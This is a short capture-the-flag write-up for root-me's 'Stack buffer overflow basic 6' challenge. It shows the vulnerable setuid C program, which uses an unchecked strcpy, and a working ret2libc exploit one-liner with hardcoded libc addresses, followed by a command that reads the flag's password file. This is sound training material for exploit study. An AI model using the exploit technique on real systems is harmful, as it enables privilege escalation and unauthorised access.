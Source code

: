 # ELF x86: Stack buffer overflow basic 6

[root-me challenge](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-6): 

Environment configuration:

```text
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomisation 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes  
```

Source code:

```text
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
 
int main (int argc, char ** argv){
    char message[20];
 
    if (argc != 2){
        printf ("Usage: %s <message>\n", argv[0]);
        return -1;
    }
 
    setreuid(geteuid(), geteuid());
    strcpy (message, argv[1]);
    printf ("Your message: %s\n", message);
    return 0;
}
```
----

```text
app-systeme-ch33@challenge02:~$ ./ch33 `python -c "print 'A'*32 + '\x10\x33\xe6\xb7' + 'DDDD' + '\x4c\x5d\xf8\xb7'"`
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�3��DDDDL]��
```

```text
$ cat .passwd
```

## Resources

* [François Boisson : Buffer Overflow ou explication de "une faille de type bufferoverflow"](https://www.youtube.com/watch?v=u-OZQkv2ebw)
* [Linux exploit development part 3 - ret2libc](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%203%20Linux%20exploit%20development%20part%203%20-%20ret2libc.pdf)
